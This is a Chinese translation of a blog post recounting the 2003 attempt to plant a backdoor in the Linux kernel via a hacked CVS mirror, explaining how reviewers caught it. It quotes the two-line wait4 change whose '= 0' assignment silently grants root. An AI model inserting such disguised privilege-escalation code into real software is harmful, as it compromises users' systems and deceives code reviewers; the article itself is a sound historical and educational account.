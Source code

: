 ```yaml
---
author: ''
categories: 观点
comments_data: []
count:
  commentnum: 0
  favtimes: 1
  likes: 1
  sharetimes: 0
  viewnum: 4337
date: '2013-10-14 21:34:00'
editorchoice: false
excerpt: "最近Josh写了一篇文章，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）\r\n今天我想讲述的是另外一个事件2003年某些人试图在Linux内核中植入后门
  \ ..."
fromurl: ''
id: 2095
islctt: true
largepic: https://img.linux.net.cn/data/attachment/album/201610/12/095124vr9cmdgilii8rrwr.png
url: /article-2095-1.html
pic: https://img.linux.net.cn/static/image/common/nophoto.png
related: []
reviewer: ''
selector: ''
summary: "最近Josh写了一篇文章，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）\r\n今天我想讲述的是另外一个事件2003年某些人试图在Linux内核中植入后门
  \ ..."
tags:
- Debian
- Linux
thumb: false
title: 揭秘！：2003年Linux后门事件
titlepic: false
translator: tinyeyeser
updated: '2013-10-14 21:34:00'
---
```


最近Josh写了[一篇文章](https://freedom-to-tinker.com/blog/kroll/software-transparency-debian-openssl-bug/)，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）


今天我想讲述的是另外一个[事件](https://lwn.net/Articles/57135/)——2003年某些人试图在Linux内核中植入后门的故事。这次事件很明确，的确有人想植入后门，只是我们不知道此人是谁，而且，也许永远都不会知道了。


时间回到2003年，当时Linux使用一套叫做BitKeeper的系统来存储Linux源代码的主拷贝。如果开发者想要提交一份针对源码的修改，就必须经过一套严格的审核过程，以决定这份修改是否能够合并进主拷贝。每个针对主拷贝的修改都必须附带一段说明，说明当中都包括了一个记录相应审核过程的链接。


但是有些人不喜欢BitKeeper，于是这些开发者们就用另一套叫做CVS的系统（译注：Linus一直拒绝使用CVS，后来不得已使用了BitKeeper，并在因某些原因BitKeeper不再让开源社区免费使用后，花了不到一个月的时间自己开发了GIT的原型，并且投入了使用），维护了一份Linux源代码的拷贝，这样他们就能随时按自己喜欢的方式获取Linux源代码了。CVS中的代码其实就是直接克隆了BitKeeper中的代码。


但是在2003年11月5日的时候，Larry McVoy[发现](https://lwn.net/Articles/57137/)，CVS中的代码拷贝有一处改动并没有包含记录审核的链接。调查显示，这一处改动由陌生人添加，而且从未经过审核，不仅如此，在BitKeeper仓库的主拷贝中，这一处改动竟然压根就不存在。经过进一步调查后，可以明确，显然有人入侵了CVS的服务器并植入了此处改动。


神秘人物究竟做了哪些改动？这才是真正有趣的地方。改动修改的是Linux中一个叫wait4的函数，程序可以使用该函数进行挂起操作，以等待某些事件的触发。神秘人物添加的，就是下面这两行代码：


**if ((options == (\_\_WCLONE|\_\_WALL)) && (current->uid = 0))**


 **retval = -EINVAL;**


[有C语言编程经验的人也许会问：这两行代码有什么特别的？请接着往下看]


猛地一看，好像这两行代码就是一段正常的错误校验代码，当wait4函数被某种文档中禁止的方式调用时，wait4就返回一个错误代码。但是一个真正认真的程序猿立刻就会发现代码中的问题，注意看在第一行末尾，“**= 0**”应该是“**== 0**”才对。是的，“== 0”在这里才是判断当前运行代码的用户ID(current->uid)是否等于0，而“= 0”不但无法判断，反而修改了用户ID的值，即，**将其值赋值为0**。


将用户ID设置为0，这是一个很严重的问题，因为ID为0的用户正是“root”，而root账户可以在系统中做任何事情，包括访问所有数据、修改任意代码的行为，能够危及到整个系统各个部分的安全。因此，这段代码的影响就是通过特殊手段使得任何调用wait4函数的软件都拥有了root权限。换句话说，这就是一个典型的后门。


客观地说，这一招很漂亮。看起来就像是无关紧要的错误校验，但真实身份却是一个后门。而且它混在其他经过审核的代码中间，几乎规避了所有审核可能会注意到自己的可能性。


但是它终究还是失败了，因为Linux小组有足够强的责任心，注意到了CVS仓库中的这段代码没有经过常规审核。Linux还是略胜一筹。


这是NSA干的吗？只能说有可能。因为有太多拥有技术能力和动机的人有可能实施了此次攻击。那么，到底是谁呢？除非某些人主动承认，又或者发现新的确凿证据，否则，我们将永远不会知道。


 


via: <https://freedom-to-tinker.com/blog/felten/the-linux-backdoor-attempt-of-2003/>


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出


译者：[tinyeyeser](https://github.com/tinyeyeser) 校对：[wxy](https://github.com/wxy)